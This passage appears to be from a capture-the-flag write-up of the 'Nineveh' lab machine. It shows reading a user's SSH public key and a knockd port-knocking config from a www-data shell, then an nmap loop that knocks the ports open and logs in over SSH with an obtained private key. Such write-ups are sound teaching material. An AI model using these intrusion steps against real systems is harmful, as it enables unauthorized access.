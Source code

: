     

The public key gives a username, amrois:

    
    
    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCuL0RQPtvCpuYSwSkh5OvYoY//CTxgBHRniaa8c0ndR+wCGkgf38HPVpsVuu3Xq8fr+N3ybS6uD8Sbt38Umdyk+IgfzUlsnSnJMG8gAY0rs+FpBdQ91P3LTEQQfRqlsmS6Sc/gUflmurSeGgNNrZbFcNxJLWd238zyv55MfHVtXOeUEbkVCrX/CYHrlzxt2zm0ROVpyv/Xk5+/UDaP68h2CDE2CbwDfjFmI/9ZXv7uaGC9ycjeirC/EIj5UaFBmGhX092Pj4PiXTbdRv0rIabjS2KcJd4+wx1jgo4tNH/P6iPixBNf7/X/FyXrUsANxiTRLDjZs5v7IETJzVNOrU0R amrois@nineveh.htb
    

### Examine Port Knocking

The other interesting thing that jumped out from the shell as www-data is the
`knockd` process :

    
    
    www-data@nineveh:/$ ps auxww
    ...[snip]...
    root      1334  1.1  0.2   8756  2228 ?        Ss   Apr10  15:29 /usr/sbin/knockd -d -i ens33
    ...[snip]...
    

`knockd` is a daemon for port knocking, which will set certain firewall rules
when certain ports are hit in order. I can find the config file at
`/etc/knockd.conf`:

    
    
    www-data@nineveh:/$ cat /etc/knockd.conf 
    [options]
     logfile = /var/log/knockd.log
     interface = ens33
    
    [openSSH]
     sequence = 571, 290, 911 
     seq_timeout = 5
     start_command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
     tcpflags = syn
    
    [closeSSH]
     sequence = 911,290,571
     seq_timeout = 5
     start_command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
     tcpflags = syn
    

This says I can open SSH by hitting 571, 290, and then 911 with syns, all
within 5 seconds, and on doing so, it will add a rule to allow my IP to get to
port 22.

### Knock

[This wiki page](https://wiki.archlinux.org/index.php/Port_knocking) gives a
good example of using `nmap` to port knock. I’ll write it as a one liner:

    
    
    root@kali# for i in 571 290 911; do
    > nmap -Pn --host-timeout 100 --max-retries 0 -p $i 10.10.10.43 >/dev/null
    > done; ssh -i ~/keys/id_rsa_nineveh_amrois amrois@10.10.10.43
    Ubuntu 16.04.2 LTS
    Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)
    